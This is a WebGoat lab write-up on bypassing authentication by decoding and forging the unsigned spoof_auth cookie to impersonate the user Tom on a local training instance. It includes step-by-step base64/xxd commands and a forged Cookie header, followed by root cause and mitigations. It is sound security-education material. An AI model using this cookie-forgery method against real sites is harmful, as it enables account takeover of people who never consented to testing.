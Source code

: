 # WebGoat — Spoof Cookie (Authentication Bypass)

**Author:** Alvin Wainaina
**Lab:** Spoof Cookie — Authentication Bypass (WebGoat)
**Date:** 2025-10-28

---

## Objective

Attempt to bypass the authentication mechanism by spoofing an authentication cookie and log in as another user (Tom).
 The lab goal is to understand how the authentication cookie is generated and to craft a valid cookie for a target user.

## Environment

* WebGoat running on `http://localhost:8080`
* Tools used: Browser DevTools (Application → Cookies), Burp Suite (Proxy & Repeater), `xxd`, `base64`.
* Known credentials (lab-provided):

  * `webgoat` / `webgoat`
  * `admin` / `admin`

---

## Summary of Findings

* The `spoof_auth` cookie is a **two-layer encoding**:

  1. ASCII string → hex string (ASCII bytes represented as hex)
  2. hex string → Base64

* The ASCII string structure is: `sAAKrBgGSP` + `<username_reversed>`

  * Example:

    * `admin` → ASCII: `sAAKrBgGSPnimda`
    * `webgoat` → ASCII: `sAAKrBgGSPtaogbew`

* Because the cookie contains no HMAC/signature and the server decodes the cookie into the structure above and accepts the username portion,
 we can construct arbitrary valid cookies for other usernames by reversing the username and encoding using the same two-layer process.

* Successfully spoofed a cookie for **Tom** and authenticated as Tom by setting the `spoof_auth` cookie to the crafted Base64 value.

---

## Reproduction — step-by-step

### 1) Capture a real cookie (from a known user)

1. Log in normally with `webgoat`/`webgoat`.
2. Inspect cookies in browser DevTools → Application → Cookies for the WebGoat host.
3. Observe `spoof_auth` value. Example observed cookies:

   * For `admin` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZTY5NmQ2NDYx`
   * For `webgoat` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA3NDYxNmY2NzYyNjU3Nw==`

### 2) Decode the cookie to reveal the underlying format

* Base64 decode the cookie value, then interpret result as a hex string, and finally convert hex to ASCII.

Commands used (examples):

```bash
# Base64 decode -> hex string, then hex -> ASCII
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# Expected output: sAAKrBgGSPmoT
```

* For `admin` the intermediate decoded bytes (hex) were: `7341414b7242674753506e696d6461`
* For `webgoat` the intermediate hex was: `7341414b72426747535074616f67626577`

Converting hex to ASCII yields the fixed prefix and reversed username.

### 3) Build the spoofed cookie for Tom

* Take the constant prefix: `sAAKrBgGSP`
* Append reversed username: `Tom` -> reversed -> `moT`
* ASCII string to encode: `sAAKrBgGSPmoT`
* Convert ASCII -> hex:

  * `echo -n 'sAAKrBgGSPmoT' | xxd -p` → `7341414b7242674753506d6f54`
* Base64-encode the hex string (final cookie value):

  * `echo -n '7341414b7242674753506d6f54' | base64` → `NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=`

Final cookie to set:

```
spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

### 4) Set the cookie and verify (two quick methods)

**Browser DevTools**

* DevTools → Application → Cookies → Edit `spoof_auth` value, paste the crafted value, reload the protected page.

**Burp Repeater**

* In a captured request or new request to the protected resource, add header:

```
Cookie: JSESSIONID=<value>; spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Send request, verify the response indicates you are authenticated as Tom.


## Commands & One-liners (cheat sheet)

* ASCII -> hex:

```bash
echo -n 'sAAKrBgGSPmoT' | xxd -p
# -> 7341414b7242674753506d6f54
```

* Hex -> ASCII:

```bash
echo -n '7341414b7242674753506d6f54' | xxd -r -p
# -> sAAKrBgGSPmoT
```

* Base64 encode the hex string (to produce final cookie value):

```bash
echo -n '7341414b7242674753506d6f54' | base64
# -> NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Full pipeline (cookie -> username):

```bash
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# -> sAAKrBgGSPmoT  (reverse `moT` -> Tom)
```

---

## Impact

* Because the cookie is purely encoded (not signed) and the server accepts the decoded username,
 an attacker who can set client-side cookies (e.g., via XSS, local access, or a MitM) can impersonate arbitrary users by constructing and setting a valid `spoof_auth` cookie.

* On production systems this would be a critical vulnerability: it allows account takeover without knowledge of passwords.

---

## Root cause

* The server uses a deterministic, reversible encoding for the authentication token without any secret/signature (HMAC/RSA) or server-side binding, enabling forgery.

---

## Recommendations / Mitigations

1. **Sign or HMAC the cookie**: include an HMAC using a server-side secret, e.g. `HMAC-SHA256(secret, data)`, and verify it server-side before trusting the cookie.
2. **Avoid storing raw user identity in client-side cookies**: store an opaque session identifier and keep the authoritative session state on the server.
3. **Set Secure and HttpOnly flags** on cookies to reduce theft via client-side scripts and ensure HTTPS-only transport.
4. **Include expiration / nonce** and validate timestamps server-side to avoid replay, but also sign the timestamp.
5. **Use proper session management libraries** instead of custom token schemes.
6. **Add server-side checks**: validate that the user exists and optionally bind cookie to other server-side session attributes.

---

## Lessons learned

* Always treat client-side data as untrusted; encoding is not a substitute for authentication or integrity protection.
* When analyzing tokens, decode in layers (Base64 → hex → ASCII → JSON) until the structure is clear.
* Capture a real request first and replay it with controlled modifications to understand server-side checks.

---

## Appendix: full reproduction commands

## Conclusion

The lab demonstrates a clear example of insecure client-side authentication token design. By decoding the `spoof_auth` token we found a constant prefix and reversed username;
 because there is no integrity protection, it's trivially forgeable. Implementing server-side session management and signed tokens prevents this class of bypass.

---


## Screenshots

![DevTools — spoof_auth cookie](screenshots/Screenshot_2025-10-28_13_02_09.png)
*DevTools showing the `spoof_auth` cookie for a logged-in user.*

![Burp Repeater — spoofed cookie header](screenshots/Screenshot_2025-10-28_13_02_09.png)
*Burp Repeater showing the `Cookie:` header with the spoofed `spoof_auth` value.*

![WebGoat — logged in as Tom](screenshots/Screenshot_2025-10-28_13_11_21.png)
*WebGoat protected page showing successful authentication as **Tom** after setting the spoofed cookie.*

